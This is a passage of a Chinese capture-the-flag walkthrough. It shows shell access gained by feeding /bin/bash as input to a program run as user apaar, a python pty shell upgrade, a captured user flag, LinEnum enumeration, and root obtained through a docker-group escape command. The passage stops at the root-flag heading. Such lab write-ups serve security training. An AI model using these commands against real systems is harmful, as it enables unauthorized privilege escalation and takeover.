 这里使用 apaar 用户运行文件，并在第二次信息输入 / bin/bash，以尝试获取 apaar 用户的 shell

![](https://image.3001.net/images/20210125/1611505840_600da0b0921111af2023d.png!small?1611505840745)

成功了！使用 python3 升级这个 shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://image.3001.net/images/20210125/1611505889_600da0e13d1be93d126bc.png!small?1611505889382)

### 5. 得到第一个标志 USER-FLAG

```
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

### 6. 使用 LinEnum.sh 获取 apaar 和 anurodh 用户的信息

LinEnum.sh 是一个非常好用的脚本，有温馨提示，[LinEnum 脚本下载](https://www.lz80.com/go?_=2140ebf727aHR0cHM6Ly9naXRodWIuY29tL3JlYm9vdHVzZXIvTGluRW51bQ==)

在本地使用 python HTTPServer 搭建服务，在靶机的 shell 中下载 LinEnum 脚本

![](https://image.3001.net/images/20210125/1611506090_600da1aa8f4988daf5fd8.png!small?1611506090711)

运行脚本，得知当前用户（anurodh）在 docker 用户组（apaar 没有）

```
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

![](https://image.3001.net/images/20210125/1611506269_600da25da147482bc11da.png!small?1611506269713)

四、权限提升
------

### 1. docker 提权

安利一个很好用的网站 https://gtfobins.github.io/

在 gtfobins 搜索 docker 获取相关信息，得到提权命令，获取 root 权限

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](https://image.3001.net/images/20210125/1611506425_600da2f94942abfc6c39c.png!small?1611506425411)

升级交互式 shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 2. 得到第二个标志 ROOT-FLAG
